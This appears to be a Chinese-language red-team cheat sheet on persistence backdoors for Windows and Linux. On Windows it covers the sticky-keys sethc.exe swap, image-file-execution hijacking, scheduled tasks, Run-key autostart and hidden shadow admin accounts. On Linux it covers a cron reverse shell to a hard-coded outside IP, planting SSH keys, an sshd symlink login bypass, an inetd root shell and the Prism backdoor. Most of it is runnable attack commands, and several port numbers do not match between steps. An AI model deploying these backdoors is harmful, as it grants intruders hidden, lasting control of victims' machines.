




# Windows后门

> 常见的后门:`shift后门`,`启动项&计划任务`,`映像劫持`,`影子账户`,`远控软件`

### 粘滞键

- 在Windows系统按5下`shift`后,Windows就运行了`System32`下的`sethc.exe`,启动`粘滞键`
- 粘滞键的位置:`C:\Windows\system32\sethc.exe`

```cmd
cd c:/windows/system32/
takeown /f sethc.exe
icacls sethc.exe /grant %username%:F
copy cmd.exe sethc.exe 
```

****

### 映像劫持

- 注册表中的`位置`

```cmd
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
```

- 在该目录下添加一个`sethc.exe`


- 也可以使用`命令行`创建

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

****

### 计划任务后门

- 每分钟执行一次 `cmd`

```cmd
schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1
```

****

### 注册表自启动后门

- 位置

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```


- 这样就实现开机自启动

```cmd
# 也可以用
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "StartupCMD" /f
```

****

### 创建影子用户

- 创建一个`隐藏的账户`

```cmd
net user smile$ 334455 /add
```

- 找到`注册表`(需要给权限)

```cmd
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\
```


- 将`administrator`对应的`F`值`复制`到`后门用户`的`F`值


- `导出`,然后删除`test$`,再删除创建的用户


```cmd
net user smile$ /del
```



- 远程连接成功!

****

# Linux后门

> `计划任务`,`ssh公钥`,`ssh软连接`,`Prism后门`

### 计划任务反弹shell

- bash命令行编写计划任务

```bash
# 进入编辑器
crontab -e
#插入下面的内容
bash -c 'exec bash -i &>/dev/tcp/8.137.60.154/1234 <&1'
```

- 监听,等待反弹

```bash
nc -lvp 7777
```


****

### SSH公钥免密

- 使用命令在本地生成`公钥`

```cmd
ssh-keygen -t rsa
```


- 将`密钥`复制到目标机器

```cmd
# 在物理机写公钥
scp C:\Users\24937\.ssh\id_rsa.pub root@192.168.193.250:/root/.ssh/authorized_keys
```



- 尝试`免密码`连接



****

### SSH软连接后门

- 使用`sshd`建立软连接,用任意密码实现登录
- 原理:利用`PAM`配置文件的作用,将sshd文件软连接名称设置为`su`,这样应用在启动过程中会去PAM配置文件中寻找是否存在对应名称的配置信息(su),su在pam rootok只检测uid 0 即可认证成功,也可以使用其它软连接名字,但是文件`必须得在/etc/pam.d目录下存在`    

- 特点:`隐蔽性较弱`,本地查看`端口`会暴露,能绕过一些网络设备的安全流量监控                                               

- 创建`软连接`,设置`监听端口`

```bash
# 建立软连接
ln -sf /usr/sbin/sshd /tmp/su
# 设置监听端口
/tmp/su -oPort=6666
# 连接ssh
ssh root@192.168.x.x -p 8080
```

…

- `inetd/xinetd`

```bash
vim /etc/inetd.conf
daytime stream tcp nowwait root /bin/bash bash -i
sudo systemctl start openbsd-inetd
nc -lvvp 192.168.x.x 13
```


### Prism后门

- 编译`prism.c`文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

- 查看`prism`后门的配置信息

```bash
./prism Inf0
```



- 将后门传到kali,运行`sendPacket.py`脚本

```bash
sudo python ./sendPacket.py 目标靶机IP 连接密码 攻击机IP 攻击机监听端口
sudo python ./sendPacket.py 192.168.66.251 p4ssw0rd 192.168.66.1 4444
nc -lvvp 1234
```

